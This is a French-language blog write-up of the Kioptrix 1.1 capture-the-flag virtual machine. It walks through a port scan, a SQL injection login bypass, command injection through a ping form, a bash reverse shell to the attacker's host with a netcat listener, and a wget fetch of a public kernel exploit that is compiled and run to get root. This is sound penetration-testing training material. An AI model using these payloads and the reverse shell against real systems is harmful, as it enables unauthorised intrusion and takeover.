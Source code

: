 ```yaml
---
layout: post
title: Writeup Kioptrix 1.1 (Lvl 2)
---
```


![pwn]({{ site.baseurl }}/images/ctf-img.png){:class="img-responsive"}

Comme toujours, la première étape d'une analyse de vulnérabilités consiste à faire un scan des ports de la machine que l'on souhaite attaquer :

```
Nmap scan report for 192.168.122.184
Host is up (0.018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
```

Ici on voit que plusieurs ports sont ouverts, débutons par une analyse rapide de ceux qui sont les plus intéressants.

Sur le port 80 tourne une application web qui demande un login et un mot de passe :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img1.png){:class="img-responsive"}

On sait grâce au scan que tourne une base de données sur le serveur, tentons alors une injection SQL en plaçant `'='` dans chacun des champs :

> Voici un lien qui m'a servis de référence : http://www.bases-hacking.org/sql-injection.html

![]({{ site.baseurl }}/images/kiopitrix-1-1/img2.png){:class="img-responsive"}

Comme on le voit, une redirection immédiate a  lieu vers ce qui semble être une application permettant de faire un ping vers une IP.

Ping étant une commande bash, il doit forcément y avoir un moyen de passer des commandes la dedans :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img3.png){:class="img-responsive"}

Ici, on a réussi à injecter une commande en écrivant `;cat index.php` dans le formulaire.
Le **;** permet en bash d'exécuter une commande à la suite de l'autre sous la forme d'une séquence.

Vérifions sous quel utilisateur nous exécutons les commandes et quel est la version de l'OS du serveur :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img4.png){:class="img-responsive"}

Nous sommes donc ici identifié en tant qu'apache qui est l'utilisateur du serveur web du même nom. Pour rappel nous devons ici obtenir les droits root sur la machine pour valider l'exercice. 

On voit ici que la version du noyaux est assez ancienne, essayons de trouver une faille dans ce dernier :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img5.png){:class="img-responsive"}


Reste maintenant à trouver un moyen d'exécuter un shell interactif pour lancer l'exploit.
Pour se faire on va exploiter un [reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Notre choix va se porter ici sur un reverse shell bash qui ressemble à ceci :

```
bash -i >& /dev/tcp/IP_To_Connect/Port_To_Connect 0>&1
```
Du coté de notre machine on va simplement lancer **netcat** en mode interactif :

```
sudo nc -lvp 666
```
Sur l'application web, on lance le reverse shell :

```
; bash -i >& /dev/tcp/192.168.122.1/666  0>&1
```
Voici ce que l'on obtiens :

```
Listening on [0.0.0.0] (family 0, port 666)
Connection from [192.168.122.184] port 666 [tcp/*] accepted (family 2, sport 32813)
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
On a donc un shell exécuté avec l'user **apache**, utilisons notre exploit :

Sur notre machine on va utiliser un serveur web basique en python qui atteint les fichiers du répertoire courant (il est disponible par défaut):

```
wget https://www.exploit-db.com/download/9542.c
sudo python -m SimpleHTTPServer 80
```

Côté serveur on va faire récupérer et compiler l'exploit avant de l'exécuter:

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.122.1/9542.c
--22:42:29--  http://192.168.122.1/9542.c
           => `9542.c.1'
Connecting to 192.168.122.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,674 (2.6K) [text/plain]
    0K ..                                                    100%   42.50 MB/s
22:42:29 (42.50 MB/s) - `9542.c.1' saved [2674/2674]
bash-3.00$ gcc -o exp 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id 
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```

Bingo ! Nous sommes root sur la machine !

## Conclusion : 

Pour conclure, on peut dire que cette machine virtuelle nous met en situation réaliste de test d'intrusion. Les failles sont certes éxagerées de par l'ancienneté de l'OS et de ses applicatifs mais on prend en main un workflow de test d'intrusion réaliste. 

Il existe certainement d'autres failles sur cette machine virtuelle, si je les trouve j'en ferais part ici. 
